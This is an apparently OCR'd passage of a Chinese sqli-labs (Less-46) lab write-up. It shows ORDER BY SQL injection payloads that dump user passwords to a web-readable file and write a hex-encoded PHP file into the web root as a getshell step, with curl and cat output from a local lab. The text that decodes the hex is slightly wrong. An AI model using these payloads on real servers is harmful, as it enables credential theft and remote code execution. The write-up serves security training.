**将查询结果导入到文件中**：

```sql
?sort=1 into outfile "/var/www/html/less46.txt"
```

如果导入不成功的话，很可能是因为 Web 目前 MySQL 没有读写权限造成的。

访问验证是否有信息：

```bash
$ curl http://127.0.0.1:8888/less46.txt
1    Dumb    Dumb
2    Angelina    I-kill-you
3    Dummy    p@ssword
4    secure    crappy
5    stupid    stupidity
6    superman    genious
7    batman    mob!le
8    admin    admin
9    admin1    admin1
10    admin2    admin2
11    admin3    admin3
12    dhakkan    dumbo
14    admin4    admin4
```

**利用导出文件 getshell**：

注入天书里面提供了 lines terminated by 姿势用于 order by 的情况来 getsgell：

```payload
?sort=1 into outfile "/var/www/html/less46.php" lines terminated by 0x3c3f70687020706870696e666f28293b3f3e
```

3c3f70687020706870696e666f28293b3f3e 是 `<php phpinfo();>` 的十六进制编码。

来查看下写入的文件内容是啥样子的：

```bash
$ cat /var/www/html/less46.php 
1    Dumb    Dumb<?php phpinfo();?>2    Angelina    I-kill-you<?php phpinfo();?>3    Dummy    p@ssword<?php phpinfo();?>4    secure    crappy<?php phpinfo();?>5    stupid    stupidity<?php phpinfo();?>6    superman    genious<?php phpinfo();?>7    batman    mob!le<?php phpinfo();?>8    admin    admin<?php phpinfo();?>9    admin1    admin1<?php phpinfo();?>10    admin2    admin2<?php phpinfo();?>11    admin3    admin3<?php phpinfo();?>12    dhakkan    dumbo<?php phpinfo();?>14    admin4    admin4<?php phpinfo();?>
```

